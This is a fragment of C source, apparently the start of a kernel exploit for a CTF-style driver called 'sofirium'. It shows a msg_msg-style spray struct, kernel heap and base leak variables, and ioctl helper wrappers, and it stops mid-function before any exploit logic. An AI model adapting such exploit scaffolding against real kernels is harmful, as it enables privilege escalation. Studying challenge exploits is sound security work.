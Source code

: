 ```c
                  /* the actual message follows immediately */
};

typedef struct {
  long mtype;
  char mtext[1];
} msg;

typedef struct sofirium_head {
  char coin_art[0x70];
  struct sofirium_entry *head;
  int total_nft;
} sofirium_head;

typedef struct sofirium_entry {
  struct sofirium_entry *next;
  char nft[CHUNK_SIZE];
} sofirium_entry;

typedef struct request {
  int idx;
  char buffer[CHUNK_SIZE];
} request;

int global_fd = 0;
uint64_t kernheap, kernbase;

void die(const char *msg){
  perror(msg);
  exit(-1);
}

void rmall() {
  request req;
  bzero(&req, sizeof(req));
  int ret = ioctl(global_fd, NFT_RMALL, &req);
  if (ret < 0) {
    die("[!] Failed to rmall");
  }
}

void add(void *data) {
  request req;
  bzero(&req, sizeof(req));
  memcpy(req.buffer, data, sizeof(req.buffer));
  int ret = ioctl(global_fd, NFT_ADD, &req);
  if (ret < 0) {
    die("[!] Failed to add");
  }
}

void get(int idx, void *data) {
  request req;
  bzero(&req, sizeof(req));
  req.idx = idx;
  int ret = ioctl(global_fd, NFT_GET, &req);
  if (ret < 0) {
    die("[!] Failed to get");
  }
  memcpy(data, req.buffer, sizeof(req.buffer));
}

void edit(int idx, void *data) {
```